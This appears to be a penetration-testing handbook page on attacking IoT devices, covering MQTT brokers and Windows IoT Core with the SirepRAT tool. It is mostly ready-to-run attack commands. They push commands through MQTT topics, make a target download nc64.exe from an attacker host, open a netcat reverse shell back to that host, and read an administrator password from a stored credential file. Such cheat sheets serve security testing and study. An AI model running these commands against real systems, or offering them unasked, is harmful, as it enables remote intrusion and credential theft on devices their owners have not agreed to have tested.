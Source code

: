 # IoT

- [Resources](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/iot.md#Resources)

## Table of Contents

- [Mosquitto (MQTT)](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/iot.md#Mosquitto-MQTT)
- [SirepRAT](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/iot.md#SirepRAT)

## Resources

| Name | Description | URL |
| --- | --- | --- |
| MQTT-PWN | MQTT-PWN intends to be a one-stop-shop for IoT Broker penetration-testing and security assessment operations. | https://github.com/akamai-threat-research/mqtt-pwn |
| Python-based MQTT Client Shell | Python-based MQTT client command shell | https://github.com/bapowell/python-mqtt-client-shell |
| SirepRAT | Remote Command Execution as SYSTEM on Windows IoT Core (releases available for Python2.7 & Python3)  | https://github.com/SafeBreach-Labs/SirepRAT |

## Mosquitto (MQTT)

### Client Tools

```c
$ sudo apt-get install mosquitto mosquitto-clients
```

```c
$ mosquitto_sub -h <RHOST> -t U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub
$ mosquitto_pub -h <RHOST> -t XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub -m 'hello'
```

### Sending Commands

```c
{ "id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "ls" }
```

```c
$ mosquitto_pub -h <RHOST> -t XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub -m 'eyAiaWQiOiAiY2RkMWIxYzAtMWM0MC00YjBmLThlMjItNjFiMzU3NTQ4YjdkIiwgImNtZCI6ICJDTUQiLCAiYXJnIjogImxzIiB9'
```

### Python-based MQTT Client Shell

> https://github.com/bapowell/python-mqtt-client-shell

```c
$ python mqtt_client_shell.py
> host=<RHOST>
> host <RHOST>
> connect
> subscribe
> subscribe topic 0, 1, 2, 3
> exit
```

## SirepRAT

> https://github.com/SafeBreach-Labs/SirepRAT

### Upload

```c
$ python SirepRAT.py <RHOST> LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c powershell Invoke-Webrequest -OutFile C:\\Windows\\System32\\spool\\drivers\\color\\nc64.exe -Uri http://<LHOST>:80/nc64.exe" --v
```

### Command Execution

```c
$ python SirepRAT.py <RHOST> LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c C:\\Windows\\System32\\spool\\drivers\\color\\nc64.exe <LHOST> <LPORT> -e powershell.exe" --v
```

```c
$ $env:UserName                                                        // get the current username
$ $credential = Import-CliXml -Path U:\Users\administrator\root.txt    // accessing a file
$ $credential.GetNetworkCredential().Password                          // show input
```
